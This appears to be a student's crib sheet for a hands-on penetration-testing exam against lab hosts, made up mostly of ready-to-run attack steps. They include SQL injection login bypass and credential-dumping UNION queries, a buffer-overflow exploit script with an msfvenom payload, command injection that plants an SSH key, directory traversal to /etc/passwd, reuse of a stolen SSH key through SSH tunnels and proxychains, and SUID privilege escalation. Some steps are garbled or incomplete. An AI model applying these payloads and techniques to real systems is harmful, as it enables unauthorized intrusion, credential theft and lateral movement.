Test priority:
2 parts: 3 hours each.
SQL.
Part 1 closes out after 3 hours.
part 1: basic website
directory traversal
manipulation
command injection
ssh key masquerade
FUCKS EVERYONE:
calm down, read full question.

85% of it is linux based.

NOTES:
--------------------------------
####AUTHENTICATION BYPASS#####
'OR 1='1   $truth statement in username and password
Go to inspect > network (login so you get the post) > post > request > raw (radio button) > paste ?THERAWSTRING into google
x.x.x.x/login.php?username='OR 1='1&password=OR 1='1    ####put a ? after the php, and then paste the RAWSTRING directory after it.
x.x.x.x/login.php?username=%27OR+1%3D%271&passwd=%27OR+1%3D%271   ###Example of what it should look like

######SQL INJECTION QUIERES######
#1 Identify the vulnerable field
'OR 1='1 # Put it in the field or in the url after .php?Selection=1
#2 Identify number of columns
'Union SELECT 1,2,3 #  #might need to add other symbols to break query
#3 Use golden statement
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
Audi'UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns
#4 Craft Queries
Audi'UNION SELECT username,2,passwd,4,5 FROM session.userinfo #
## GET METHOD
#1 Identify the vulnerable field
Use the URL after submitting, take out the quest and after Selection=1 or 1=1
#2 Identify number of columns
Selection=4 Union Select 1,2,3
#3 Golden Statement
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
#4 Craft Queries is the Same
# See Databases
Audi'UNION SELECT table_schema,2,3,4,5 FROM information_schema.columns

######FIND A FILE TO EXPLOIT, RUN AGAINST IT FOR BUFFER OVERFLOW#######
Run sudo -L,
This gives you a file that you can have sudo privelages to run commands through.
/var/tmp/exploitme
Find if the file needs parameters or text input.
./var/tmp/exploitme <<<$(echo "asdasdasd")  ##Accepts text input
./var/tmp/exploitme $(echo "asdasdasd") ##Accepts parameters
Your syntax for running your script against the file will be 
gdb ./exploitme -> run $(python pbuff.py) or gdb ./exploitme -> run <<<$(python pbuff.py)
Your python file will look like: ##########
vim lynnbuff.py
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
print(offset)
#############
firefox on linux workstation -> wiremask.eu -> tools -> buffer overflow pattern generator.
Copy the Hex given, use that HEX to find the offset (Register Value), use that offset to find the actual offset.
After finding the offset, put amount of characters in your offset and recreate script to ensure its working:
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)
#####
your eip should be 42424242. From here you do:
gdb ./exploitme -> show env -> unset env COLUMNS -> unset env LINES -> show env -> run $(python pbuff.py) -> info proc map -> find /b (START HEX AFTER HEAP),(END HEX BEFORE STACK),
0xff, 0xe4.
The output given take first 5 lines, make your eip your first little endian. "0xf7de3b59 -> \x59\x3b\xde\xf7"
Go to your pc, and make an msfvenom to create your buf:
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
Final script: ####################
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf = 
print(offset+eip+nop+buf)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
'''
#####
###########SSH MASQUERADE#############
For dumb S WORD !!!!!!!! <!> <!> <!> ############################################################################################################################################
scp HACKER@HACKERIP:FILEPATHTOSSHKEY ME:MYFILEPATH -P ENEMYPORT
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222
ssh www-data@localhost -p 41010 -D 9050 
proxychains nmap -T5 -Pn 192.168.150.253 -p 0-65535 2>/dev/null
chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222 -L 41011:192.168.150.253:3201

############################################ PRE-TEST COVER ###################################
First ip address is your target , not a jump box.
Start off by nmapping the given IP, record ports.
Netcat the found ports: nc 10.50.11.179 22
# nmap --script=http-eum 10.50.11.179
firefox -> 10.50.11.179 -> open a tab for every single tab
You can do webpage.login.php?\StuffFoundInEnum and open those files.
#Run an Authentication bypass on the login page. 'OR 1='1 -> ; whoami -> ; cat /etc/passwd , look for users home directory , user2 at bottom
#File to read webpage: ../../../../../../../etc/passwd , /etc/hosts
Malicious File upload: WebEx day 1
Use SSH injection in order to get onto the machine -> ; mkdir -> ssh-kreygen -t rsa -b 4096 -> ; echo "" > /var/www/.ssh/authorized_keys
#ssh -MS /tmp/t1 www-data@10.50.11.179
on PFW machine: for i in {1..255}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
Setup dynamic tunnel to scan new target: ## ssh -S /tmp/t1 t1 -O forward -D 9050
scan new target: ## proxychains nmap 192.168.28.165,.1,.175
##proxychains nc 192.168.28.165 22 
##ssh -S /tmp/t1 t1 -O forward -L1111:192.168.28.175:2222 -L1112:192.168.38.175:8000
firefox -> 127.0.0.1:1112
Go through options, use GET method in order to find the correct one.
# ?product=7 OR 1=1 -> UNION SELECT 1,2,3,4 # (error means take a number away) -> (1,3,2) table_schema.column,column_name.table_name from information.schema.columns #
Duplicate the tab in order to save information, # UNION SELECT user_id,name,username from siteusers.users #
Rot13 the creds found, this gives you the passwords for the users you found for the next box. 
# ssh -S /tmp/t1 t1 -O forward -L2222:192.168.28.165:22
# ssh -MS /tmp/t2 user3@127.0.0.1 -p 2222
(user credentials for account from ROT13 decode)
#Enumerate new system, cat /etc/hosts, sudo -l, cat /etc/passwd, find / -type f -perm /6000 -ls 2>/dev/null
Go to GTFObins -> Search find -> SUID method -> ./find . -exec /bin/sh -p \; -quit -> id 
